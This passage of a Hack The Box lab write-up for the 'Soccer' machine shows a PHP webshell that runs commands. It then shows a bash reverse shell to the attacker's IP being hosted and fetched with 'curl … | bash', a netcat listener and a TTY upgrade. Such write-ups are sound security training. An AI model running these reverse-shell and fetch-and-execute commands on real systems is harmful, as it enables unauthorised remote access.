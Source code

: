 
I now have command execution!
```bash
┌──(kali㉿Kali)──[14:47:28]──[~/htb/Machines/Soccer]
└─$ curl -X POST http://soccer.htb/tiny/uploads/shell.php -d 'cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Executing a reverse shell directly from the webshell doesnt work. Instead I host a shell on my python server, and access it from the victim machine and pipe it into bash.
```bash
# Write reverse shell to a file
┌──(kali㉿Kali)──[14:50:35]──[~/htb/Machines/Soccer/www]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' > shell.sh

# Host shell on my webserver
┌──(kali㉿Kali)──[14:50:39]──[~/htb/Machines/Soccer/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# Start netcat listener
┌──(kali㉿Kali)──[14:50:35]──[~/htb/Machines/Soccer/www]
└─$ nc -lvnp 9001                                              
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001

# Use the webshell to execute reverse shell
┌──(kali㉿Kali)──[14:51:25]──[~/htb/Machines/Soccer/www]
└─$ curl -X POST http://soccer.htb/tiny/uploads/shell.php -d 'cmd=curl 10.10.14.78/shell.sh|bash'
```
I now have a shell on the box! I use the [python pty trick](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell) to improve my shell
```bash
┌──(kali㉿Kali)──[14:50:35]──[~/htb/Machines/Soccer/www]
└─$ nc -lvnp 9001                                              
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.205.101:36932.

www-data@soccer:~/html/tiny/uploads$ python3 -c 'import pty;pty.spawn("bash")'
</uploads$ python3 -c 'import pty;pty.spawn("bash")'
www-data@soccer:~/html/tiny/uploads$ ^Z
zsh: suspended  nc -lvnp 9001


┌──(kali㉿Kali)──[14:53:25]──[~/htb/Machines/Soccer/www]
└─$ stty raw -echo; fg 
[1]  + continued  nc -lvnp 9001

www-data@soccer:~/html/tiny/uploads$ stty rows 70 cols 126
www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$ 

```
## SQLi > Shell as Player
Poking around the box, I found a new subdomain `soc-player.soccer.htb` in `/etc/nginx/sites-available/soc-player.htb`. I add this to my `/etc/hosts` file.
